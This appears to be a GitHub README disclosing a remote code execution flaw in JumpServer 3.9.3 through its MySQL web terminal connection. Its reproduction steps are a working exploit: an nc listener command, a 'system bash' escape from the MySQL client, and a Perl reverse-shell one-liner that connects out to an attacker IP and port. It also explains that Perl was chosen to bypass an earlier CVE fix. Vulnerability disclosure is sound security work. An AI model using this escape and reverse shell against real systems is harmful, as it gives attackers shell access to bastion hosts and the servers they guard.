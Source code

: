 # JumpServer - MySQL RCE
JumpServer is the world's first open-source Bastion Host and is licensed under the GPLv3. It is a 4A-compliant professional operation and maintenance security audit system. JumpServer uses Python / Django for development, follows Web 2.0 specifications, and is equipped with an industry-leading Web Terminal solution that provides a beautiful user interface and great user experience 
This is a public available vulnerability for Remote Code Execution when using MYSQL conenction in JumpServer 

## Environment
* Platform: Docker
* Operation System: Ubuntu 22.04
* Image Version: JumpServer Image 3.9.3  
* MYSQL Version: 8.0.1

## Step to Reproduce
Step 1. Set up a MYSQL connection inside the JumpServer Web Console  

Step 2. Setup a reverse shell listener in another server ```nc -nlvp 4242```

Step 3. Establish the connection for MySQL inside Jumpserver Web Console

Step 4. Run ```system bash``` and then it will exit the Mysql terminal 

Step 5. Run ```"perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP Address>:<Port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' " ``` for connecting reverse shell  
<img width="721" alt="image" src="https://github.com/N0th1n3/JumpServer-MySQLRCE/assets/150101148/60fc4f40-c50f-4ed1-8cf0-46c890cd9fa5">  
Note: (The reason of using perl reverse shell is that the previous fix in CVE-2023-43651 https://github.com/jumpserver/jumpserver/security/advisories/GHSA-4r5x-x283-wm96 has limited most of the reverse shell function).

Step 6. Reverse Shell received  
<img width="520" alt="image" src="https://github.com/N0th1n3/JumpServer-MySQLRCE/assets/150101148/9bdd4383-6d41-42f6-a620-ac77df960452">


